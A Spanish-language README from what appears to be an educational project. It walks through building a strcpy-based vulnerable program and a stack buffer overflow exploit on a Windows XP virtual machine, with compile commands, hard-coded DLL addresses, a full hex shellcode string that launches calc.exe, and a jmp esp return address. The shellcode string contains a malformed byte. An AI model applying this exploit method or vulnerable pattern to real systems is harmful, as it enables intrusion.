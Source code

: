 <h1>Descripción</h1>
<p>El proyecto Tsunami consiste en hacer un programa vulnerable a <a href="https://es.wikipedia.org/wiki/Desbordamiento_de_b%C3%BAfer">buffer overflow</a>, y otro que aproveche esta vulnerabilidad para ejecutar la calculadora</p>
<p>Para este proyecto se usa un <a href="https://javiermartinalonso.github.io/devops/devops/vagrant/2018/02/09/vagrant-vagrantfile.html">Vagrantfile</a> que emulará una máquina Windows XP 32 bits donde se hará todo el proceso</p>
Para la creación del proyecto se ha seguido la explicación de <a href="https://wiki.elhacker.net/bugs-y-exploits/overflows-y-shellcodes/exploits-y-stack-overflows-en-windows">esta página</a>, sin embargo también haré una breve explicación del código aquí.
<h2>Archivos</h2>
<p>A continuación se hará una breve descripción de cada archivo y su función. El funcionamiento interno de cada archivo se encuentra explicado con más detalle en los comentarios de cada uno.</p>
<h3>Vuln1.c</h3>
<p>Este archivo es el ejecutable vulnerable al buffer overflow, debido a que usa la función strcpy y no comprueba la longitud que de los datos introducidos en el buffer</p>
<h3>Offset.c</h3>
<p>Esta función se usa en el proceso de creación del exploit. Al darle como argumentos una librería y una función dentro de la misma nos devolverá una dirección de memoria, donde se encuentra la función en la máquina (más adelante veremos su uso)</p>
<h3>Shellcode.c</h3>
<p>Este archivo contiene el código que iniciará la calculadora. El código está en ensamblador (se pueden encontrar ejemplos similares en internet) y para obtener las dos direcciones de memoria que podemos ver dentro del código se ha usado el offset.c</p>
<h3>Findjmp.exe</h3>
<p>Este archivo se usa para conseguir el offset de la librería kernel32.dll que necesitaremos para el shellcode</p>
<h3>Exploit.c</h3>
<p>Este es el programa que aprovechará la vulnerabilidad del programa vuln1 para desbordar el buffer y abrir la calculadora</p>

<h2>Creación</h2>
<p>El primer paso será compilar el archivo vulnerable de la siguiente forma:</p>

```
cl vuln1.c
```

Esto nos dará un archivo .obj y un archivo .exe, que será el ejecutable vulnerable.<br>
El siguiente paso será buscar los offsets necesarios para crear el shellcode, para ello compilaremos el archivo offset.c y lo ejecutaremos de la siguiente forma:

```
cl offset.c
offset.exe kernel32.dll LoadLibraryA 
offset.exe msvcrt.dll system
```

El comando cl nos dará el archivo .exe que será el que usaremos para los siguientes comandos, ambos nos darán como resultado las siguientes direcciones de memoria:<br>
`0x7c801d7b`<br>
`0x77c293c7`<br>

Estás direcciones son las correspondientes a las funciones (tercer argumento de los comandos) en las librerías (segundo argumento en los comandos). Necesitaremos esta dirección para ejecutar las funciones desde lenguaje ensamblador.

Ahora haremos el shellcode con las direcciones que hemos conseguido, en <a href="https://wiki.elhacker.net/bugs-y-exploits/overflows-y-shellcodes/exploits-y-stack-overflows-en-windows">esta página</a> podremos encontrar un ejemplo de shellcode, sin embargo este ejecutará la consola, mientras que nuestro proyecto busca ejecutar la calculadora.
Veremos que la única diferencia se encuentra en las direcciones de memoria y en las líneas con este formato: `mov byte ptr [ebp-08h],63h`

Los 2 números al final de cada línea son cada una las letras (en <a href="https://ascii.cl/es/">hexadecimal</a>) que conformarán en el primer caso la librería que queremos cargar y en el segundo el comando a ejecutar, `msvcrt.dll` y `calc.exe` respectivamente.

Con esto ya tendríamos el shellcode, pero no nos sirve así, lo necesitamos en hexadecimal para convertirlo en un payload, para esto haremos lo compilaremos

```
cl shellcode.c
```

Este comando nos dará un `shellcode.obj` y un `shellcode.exe`. El que nos interesa en este caso es el primero, pero como hemos dicho lo queremos en hexadecimal, para ello usaremos el siguiente comando:

``` 
xdd -i shellcode.obj
```

Ahora tenemos que formatear el output que hemos conseguido para que quede de la siguiente forma `\x55\x8b\xec\x33...`, para ello usaremos el siguiente comando
```
xxd -i -c1024 shellcode.obj | sed -e 's/0x/\\x/g' | sed -e 's/, //g'|tr -d ,
```
Lo que tenemos es básicamente el shellcode compilado pero en un formato que el exploit podrá utilizar. Tendremos que buscar las partes donde haya un `\x55\x8b` que son el principio y el final del comando en ensamblador.
El código resultante será el siguiente
```
\x55\x8b\xec\x33\xff\x57\x83\xec\x0c\xc6\x45\0xf5\x6d\xc6\x45\xf6\x73\xc6\x45\xf7\x76\xc6\x45\xf8\x63\xc6\x45\xf9\x72\xc6\x45\xfa\x74\xc6\x45\xfb\x2e\xc6\x45\xfc\x64\xc6\x45\xfd\x6c\xc6\x45\xfe\x6c\x8d\x45\xf5\x50\xbb\x7b\x1d\x80\x7c\xff\xd3\x55\x8b\xec\x33\xff\x57\x83\xec\x08\xc6\x45\xf7\x63\xc6\x45\xf8\x61\xc6\x45\xf9\x6c\xc6\x45\xfa\x63\xc6\x45\xfb\x2e\xc6\x45\xfc\x65\xc6\x45\xfd\x78\xc6\x45\xfe\x65\x8d\x45\xf7\x50\xbb\xc7\x93\xc2\x77\xff\xd3
```
Con esto ya tendríamos todo lo necesario para crear nuestro exploit así que vamos al lío.

Crearemos un buffer muy grande (en mi caso 1024 bytes) donde cargaremos todo el payload. Guardaremos el código hexadecimal del shellcode en una string shellcode para añadirlo al payload más tarde.
Ahora usaremos el findjmp.exe para encontrar el offset necesario para que el exploit funcione:
```
findjmp.exe kernel32.dll esp
```
Esto nos devolvera una dirección pero tendremos que introducirla en otro string al revés siendo el resultado el siguiente:
```
\x7B\x46\x86\x7C
```

Comprobaremos que se introduzca 1 argumento a la hora de ejecutar el exploit. Copiaremos el argumento que hayamos introducido en el buffer grande, para llenar el buffer vulnerable de la aplicación, luego añadiremos la dirección de memoria que acabamos de conseguir y tras esto el shellcode.
Tras esto ejecutaremos el programa vulnerable dandole como argumento el buffer malicioso que hemos creado y esto abrirá la calculadora.
